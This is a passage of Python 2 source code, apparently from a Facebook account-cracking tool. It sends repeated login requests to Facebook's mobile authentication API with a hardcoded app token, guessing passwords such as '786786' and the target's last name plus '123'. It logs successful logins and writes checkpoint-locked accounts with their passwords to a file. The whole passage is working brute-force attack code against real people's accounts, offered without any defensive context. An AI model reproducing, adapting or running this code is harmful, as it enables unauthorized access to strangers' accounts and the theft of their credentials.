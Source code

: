 										print '\033[0;92m[OK] \033[0;39m ' + user  + ' \033[0;39m | \033[0;39m ' + pass4 + '\033[0;39m | \033[0;39m' + b['name']

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass4 + '\033[0;39m | \033[0;39m' + b['name']

											cek = open("out/CP.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = '786786'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\033[0;92m[OK] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass5 + '\033[0;39m | \033[0;39m' + b['name']

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[0;91;39[CP] \033[0;39m ' + user  + ' \x1b[0;36;39|\033[0;39m ' + pass5 + '\033[0;39m | \033[0;39m' + b['name']

													cek = open("out/CP.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['last_name'] + '123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:
